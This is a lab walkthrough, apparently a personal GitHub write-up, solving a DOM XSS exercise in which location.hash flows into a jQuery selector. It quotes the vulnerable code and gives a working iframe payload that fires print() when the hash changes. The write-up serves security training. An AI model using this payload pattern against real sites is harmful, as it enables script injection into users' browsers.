 # Lab 6: DOM XSS in jQuery selector sink using a hashchange event

---

## 🎯 Mission Description  
This lab has a DOM XSS vulnerability because it uses jQuery's `$()` selector with data taken directly from `location.hash` without sanitization. The vulnerable jQuery version interprets injected HTML, allowing arbitrary JavaScript execution when the hash changes.

---

## 🎯 Mission Objective  
Trigger the `print()` function in the victim's browser.

---

## 🧪 Steps (My Approach)

1. 🔍 Viewed the source code and found:

   ```javascript
   $(window).on('hashchange', function(){
       var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
       if (post) post.get(0).scrollIntoView();
   });

→ This takes whatever is after the # in the URL, decodes it, and places it inside the :contains() selector. jQuery 1.8.2 will treat HTML in the selector as actual DOM elements.

    ❌ First try (direct injection in hash):

    https://LAB-ID.web-security-academy.net/#<img src=x onerror=print()>

    Result:
    Code didn’t execute immediately because the event only fires when the hash changes after page load.

    ✅ Working approach:

        Use an <iframe> to load the page with a harmless hash.

        On the iframe’s onload, append the malicious payload to src, causing a hash change and triggering the vulnerable code.

✅ Final Payload

<iframe src="https://LAB-ID.web-security-academy.net//#" onload="this.src+='<img src=x onerror=print()>'"></iframe>

🔎 Which results in:

<section class="blog-list">
    <h2>img src="x" onerror="print()"></h2>
</section>

💥 print() executes as soon as the hashchange event fires.
🧠 Notes

    Vulnerability is due to unsafe use of user input inside jQuery selectors.

    Old jQuery versions (< 3.5.0) can interpret injected HTML in selectors.

    Payload only triggers when the hash actually changes, hence the need for the iframe trick.

✅ Status: Solved 🎉
